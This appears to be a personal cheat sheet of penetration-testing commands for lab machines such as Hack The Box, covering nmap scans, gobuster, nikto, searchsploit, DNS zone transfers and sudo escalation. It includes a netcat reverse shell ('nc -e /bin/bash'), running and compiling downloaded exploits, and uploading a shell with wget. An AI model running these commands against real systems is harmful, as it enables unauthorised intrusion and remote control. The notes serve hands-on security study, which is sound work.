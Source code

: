 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host ip and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 99999 host 
nmap -p- -sV port scanning ant its version
nmap -sV -sC -v From your scans, what version is FTP running on the target?
nmap -sS -p- -Pn --min-rate host ip for            to find all open ports
nmap -sC -sV -p htb
 nmap --script vuln -A 10.129.123.49 for finding all vulnerablitie


when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh
gobuster  dir -u  http://10.129.123.49 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log -t 50


nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHTTPServer 80

chmod +x exploit for giving a permission(x using execute)

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands

xkcd for explain vuln with nice comic


wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  


dnszone using:
dig -t NS(name server)
dig axfr @nameserver nameserver

nslookup for finding nameserver

check the command injection

 python upgrade shell       python -c 'import pty; pty.spawn("/bin/bash")'
 
 ctrl u (for inspect source)
 
 ubuntu apache  2.2.22 precision for finding last ubuntu update
 and next gonna here  from mozilla: ubuntu release precise
